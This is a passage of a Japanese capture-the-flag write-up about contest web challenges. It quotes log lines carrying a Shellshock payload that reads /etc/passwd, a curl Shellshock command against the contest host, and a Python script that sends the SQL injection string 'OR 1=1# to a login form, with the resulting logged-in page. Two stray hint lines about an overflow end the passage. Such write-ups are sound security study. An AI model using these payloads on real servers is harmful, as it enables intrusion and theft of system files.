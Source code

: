 ```
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/y.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/z.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/v.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
```

どうやら`/cgi-bin/n.cgi`で反応があるようだ。

`/cgi-bin/n.cgi`を開くと次のようなページが表示される。

![](/assets/blog/bouei/image-20.png)

[shellshock](https://www.nca.gr.jp/info/gnu-bash-shellshock.html)とは、bashの環境変数の処理時に任意コード実行が行われてしまう脆弱性で、問題文のCVE-2014-7169もこの脆弱性を指している。ただ、とりあえずやるべきはログファイルの再現(最後の列はUser Agentであることに注意)なので、以下のcurl文を実行してみるとフラグが得られた。

```
$ curl -A "() { :;};echo Content-type:text/plain;echo;/bin/cat /etc/PW-1" https://pw1-prod.2025winter-cybercontest.net/cgi-bin/n.cgi
```


## [PW] 認可は認証の後 (200pts)

> 下記のURLにアクセスし、フラグを入手してください。 Webアプリケーション脆弱性診断の観点を持つと良いみたいです。
> https://pw2-prod.2025winter-cybercontest.net/
> 【回答書式】 flag{n桁の英数字}

次のようなページが表示される。

![](/assets/blog/bouei/image-21.png)

Webページ上では、アカウント名が8文字ちょうどで、パスワードが8文字以上という制約が鬱陶しいので、pythonスクリプトで実験する。まず、SQLインジェクションを試して見たところ刺さった。


```python
import requests

URL = "https://pw2-prod.2025winter-cybercontest.net/"

s = requests.session()
data = {
    "name": "'OR 1=1#",
    "password": "bizbaz",
    "pass-re": "bizbaza"
}
r = s.post(URL + "auth.php", data=data, allow_redirects=True)
print(r.status_code)
print(r.text)
```

実行結果
```html
<!DOCTYPE html>
<html lang="ja">
<head>
<meta charset="UTF-8">
<link rel="stylesheet" href="style.css">
<title>マイページ</title>
</head>
<body>
<div class="title">マイページ</div>
<div class="right"><a href="logout.php">ログアウト</a></div>
<hr />
ようこそmikawa01さん！<br />
<br />
```

[hint]: overflow == 0x0
[hint]: overflow == 0x3534333231307a79